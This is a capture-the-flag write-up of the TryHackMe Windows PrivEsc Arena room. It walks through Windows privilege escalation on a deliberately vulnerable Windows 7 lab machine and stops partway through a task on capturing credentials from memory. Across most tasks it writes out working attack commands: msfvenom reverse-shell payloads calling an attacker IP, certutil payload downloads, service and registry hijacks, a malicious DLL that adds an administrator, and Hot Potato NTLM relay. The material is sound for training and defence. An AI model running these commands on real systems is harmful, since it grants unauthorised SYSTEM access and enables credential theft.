<div align="center">



</div>

## 📌 Overview

Windows PrivEsc Arena is a TryHackMe room built around a deliberately vulnerable Windows 7 machine. Every task is a different privilege escalation technique. You start as a low-privileged user named `user` and your goal every single time is the same — become SYSTEM or Administrator.

This writeup documents every task from detection through exploitation. Every technique here is documented the way you would actually encounter it on a real engagement — enumeration first, exploitation second, with extra paths beyond what the room teaches. Keep this document open every time you land on a Windows machine and need to escalate.

---

## 🛠 Tools Used

```
PowerUp.ps1             → automated Windows privilege escalation checks
WinPEAS                 → automated enumeration
AccessChk64             → service and directory permission checking
msfvenom                → payload generation
msfconsole              → listener and post-exploitation
certutil / IE           → file download on target
mingw-w64 gcc           → cross-compiling Windows binaries from Kali
Tater.ps1               → Hot Potato exploit
pyftpdlib               → FTP server for file transfers
```

---

## 🎯 Target Information

| Field      | Value                              |
| ---------- | ---------------------------------- |
| Platform   | TryHackMe                          |
| Room       | Windows PrivEsc Arena              |
| OS         | Windows 7 Build 7601 (x64)         |
| Hostname   | TCM-PC                             |
| User       | user                               |
| Tasks      | 14 / 14                            |
| Access     | RDP via rdesktop                   |
| Goal       | SYSTEM or Administrator every task |

---

## 🧭 Walkthrough

### Core Enumeration — Run These First

**Goal:** Map every possible attack vector before touching any exploit.

The order every time:

```
1. Who am I and what privileges do I have?
2. What OS and patch level?
3. What services are misconfigured?
4. What credentials are stored?
5. What is missing a patch?
```

**Run PowerUp first — it surfaces most vulnerabilities in this room automatically:**

```powershell
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```

**Check sudo permissions and OS:**

```cmd
whoami /priv
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
wmic qfe list full
```

---

### Task 3 — Registry Escalation: Autorun

**Goal:** Replace a world-writable autorun executable with a malicious binary and wait for an admin login.

#### Detection

AccessChk confirms the autorun executable has `RW Everyone FILE_ALL_ACCESS`:

```cmd
accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```



`RW Everyone FILE_ALL_ACCESS` — anyone on the machine can overwrite the autorun binary. When an admin next logs in, Windows executes it automatically.

#### Exploitation

Generate the payload on Kali, host it, download and replace the binary on the target, then trigger by logging off. When the admin logs back in:

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=YOUR_KALI_IP -f exe -o program.exe
```

```cmd
certutil -urlcache -split -f http://YOUR_KALI_IP/program.exe "C:\Program Files\Autorun Program\program.exe"
```



**Result:** Meterpreter session as `tcm-pc\tcm` (admin user).

---

### Task 4 — Registry Escalation: AlwaysInstallElevated

**Goal:** Run a malicious MSI as SYSTEM by abusing the AlwaysInstallElevated policy.

#### Detection

Both registry keys must be `0x1` — check both HKLM and HKCU:

```cmd
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```



Both keys are set to `0x1`. The Windows Installer service will run any MSI as SYSTEM.

#### Exploitation

Generate a malicious MSI on Kali and run it on the target:

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=YOUR_KALI_IP -f msi -o setup.msi
```

```cmd
msiexec /quiet /qn /i C:\Temp\setup.msi
```



**Result:** Meterpreter session as `nt authority\system`.

---

### Task 5 — Service Escalation: Registry

**Goal:** Change a service's ImagePath registry value to execute a malicious binary as SYSTEM.

#### Detection

Check the ACL on the service registry key:

```powershell
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```



`NT AUTHORITY\INTERACTIVE Allow FullControl` — any logged-in user has full control over this registry key, including changing `ImagePath`.

#### Exploitation

Transfer `windows_service.c` to Kali via FTP, edit the payload to add user to administrators, compile, download back to target, change ImagePath, start the service:

```bash
x86_64-w64-mingw32-gcc windows_service.c -o x.exe
```

```cmd
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\Temp\x.exe /f
sc start regsvc
```



```cmd
net localgroup administrators
```



**Result:** `user` added to the local administrators group.

---

### Task 6 — Service Escalation: Executable Files

**Goal:** Overwrite a world-writable service executable with a malicious binary that runs as SYSTEM.

#### Detection

AccessChk confirms `filepermservice.exe` has `FILE_ALL_ACCESS` for `Everyone`:

```cmd
accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
```



`RW Everyone FILE_ALL_ACCESS` — any user can delete and replace this file. Since the service runs as SYSTEM, overwriting it gives SYSTEM execution.

#### Exploitation

Download x.exe (same compiled payload from Task 5) directly into the service directory, then restart the service:

```cmd
sc stop filepermsvc
sc start filepermsvc
net localgroup administrators
```



**Result:** `user` added to the local administrators group.

---

### Task 7 — Privilege Escalation: Startup Applications

**Goal:** Drop a malicious executable into the global Startup folder and wait for an admin login.

#### Detection

`icacls` confirms `BUILTIN\Users:(F)` on the global Startup folder — any user can write there:

```cmd
icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```



`F` = Full Control. Place a binary here and it runs for every user who logs in, including administrators.

#### Exploitation

Generate payload, host it, drop into Startup folder, start a listener, then log off. When admin logs back in the startup item fires:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_KALI_IP -f exe -o startup.exe
```

```cmd
certutil -urlcache -split -f http://YOUR_KALI_IP/startup.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\startup.exe"
```



**Result:** Meterpreter session as the admin user after their login.

---

### Task 8 — Service Escalation: DLL Hijacking

**Goal:** Plant a malicious DLL in a writable PATH directory that a SYSTEM service is searching for but cannot find.

#### Detection

PowerUp identifies `C:\Temp` is in the system PATH and is writable by Authenticated Users. The `dllsvc` service looks for a DLL in PATH locations and fails:

```powershell
Invoke-AllChecks
```



`Write-HijackDll -DllPath 'C:\Temp\wlbsctrl.dll'` — PowerUp tells you exactly what to do.

#### Exploitation

Transfer `windows_dll.c` from target to Kali via FTP. Edit the payload — the `DllMain` constructor adds our user to administrators:

```c
system("cmd.exe /k net localgroup administrators user /add");
```



Compile as a DLL, place in `C:\Temp`, restart the service:

```bash
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
```

```cmd
sc stop dllsvc
sc start dllsvc
```



```cmd
net localgroup administrators
```



**Result:** `user` added to the local administrators group.

---

### Task 9 — Service Escalation: binPath

**Goal:** Change a service's binPath to execute an arbitrary command as SYSTEM.

#### Detection

AccessChk confirms `Everyone` has `SERVICE_CHANGE_CONFIG` on `daclsvc`:

```cmd
accesschk64.exe -uwcv Everyone *
```



`SERVICE_CHANGE_CONFIG` = you can change what the service runs. The service runs as `LocalSystem`. No file writes needed — only registry-level service config change.

#### Exploitation

Change the binPath to add our user to administrators, then start the service:

```cmd
sc config daclsvc binpath= "net localgroup administrators user /add"
```



```cmd
sc start daclsvc
net localgroup administrators
```



**Result:** `user` added to the local administrators group.

---

### Task 10 — Service Escalation: Unquoted Service Paths

**Goal:** Place a malicious executable at an ambiguous path position that Windows resolves before the real service binary.

#### Detection

PowerUp detects `unquotedsvc` with an unquoted path containing spaces:

```powershell
Invoke-AllChecks
```



The path `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe` without quotes causes Windows to try `C:\Program Files\Unquoted Path Service\Common.exe` before reaching the real binary. We can write there.

#### Exploitation

Generate `common.exe`, place it at the hijack point, start the service:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_KALI_IP -f exe -o common.exe
```

```cmd
sc start unquotedsvc
```



**Result:** Meterpreter session as `nt authority\system`.

---

### Task 11 — Potato Escalation: Hot Potato

**Goal:** Chain NBNS spoofing, WPAD hijacking, and NTLM relay to execute a command as SYSTEM.

#### Detection

Hot Potato works on unpatched Windows 7 / Server 2008. Verify OS version and that MS16-075 patch KB3164038 is missing:

```cmd
wmic qfe list | findstr "3164038"
```

Nothing returned = vulnerable.

#### Exploitation

Run Tater with a single command — it handles the entire chain automatically:

```powershell
powershell.exe -nop -ep bypass
Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
```



The output shows every stage: NBNS spoof → WPAD spoofed → HTTP to SMB relay triggered → relay authentication successful → command executed → Tater successful and exited.

```cmd
net localgroup administrators
```



**Result:** `user` added to the local administrators group.

---

### Task 12 — Password Mining: Configuration Files

**Goal:** Find plaintext credentials stored in an unattended installation answer file.

#### Detection

Check the standard location where Windows Setup answer files are left after installation:

```cmd
dir C:\Windows\Panther\Unattend.xml
```

The file exists. Open it — the `AutoLogon` section contains a base64-encoded password:



```xml
<Value>cGFzc3dvcmQxMjM=</Value>
<PlainText>false</PlainText>
<Username>Admin</Username>
```

#### Exploitation

Decode on Kali — always use single quotes to prevent shell variable expansion on the `$` signs:

```bash
echo 'cGFzc3dvcmQxMjM=' | base64 -d
```



Output: `password123` — use it with `runas /user:Admin cmd.exe` or from Kali with `evil-winrm`.

**Result:** Admin credentials recovered from a forgotten installation file.

---

### Task 13 — Password Mining: Memory

**Goal:** Capture credentials from browser process memory by setting up a fake HTTP Basic Auth server.

#### Detection

Run `tasklist` or `Get-Process` and look for browser processes with active sessions. IE is running — it can be tricked into authenticating to a fake server.

#### Exploitation

Set up a fake HTTP Basic Auth capture server in Metasploit:

```bash
use auxiliary/server/capture/http_basic
set uripath x
